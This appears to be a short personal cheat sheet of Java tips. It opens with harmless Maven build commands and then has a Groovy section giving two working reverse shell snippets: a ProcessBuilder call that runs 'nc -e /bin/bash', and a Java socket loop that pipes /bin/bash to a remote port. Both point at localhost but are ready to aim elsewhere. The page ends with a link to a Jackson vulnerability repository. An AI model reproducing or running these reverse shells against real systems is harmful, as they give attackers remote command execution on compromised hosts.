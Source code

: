 ```yaml
---
---

# JAVA Related Tips and Tricks
---
```

date: 18/01/2025
---

# Maven for noobs
* Building a project `mvn clean package`
* Building without javadoc `-Dmaven.javadoc.skip=true`
* Building without `-Dmaven.test.skip=true`
* Jar files are usually under `./target` folder of the project (prefer the generated `*jar-with-dependencies.jar`)
* For projects with submodules look for `target/` folder under each of them

# Groovy

## Reverse Shell

### with netcat
```java
new ProcessBuilder("nc","-e","/bin/bash","localhost","1234").start()
```

### without netcat
```java
String host="localhost";
int port=1445;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()) {
  while(pi.available()>0) so.write(pi.read());
  while(pe.available()>0) so.write(pe.read());
  while(si.available()>0) po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try {p.exitValue();
    break;
  }
  catch (Exception e){}
};
p.destroy();
s.close();
```


https://github.com/lorenzodegiorgi/jackson-vulnerability
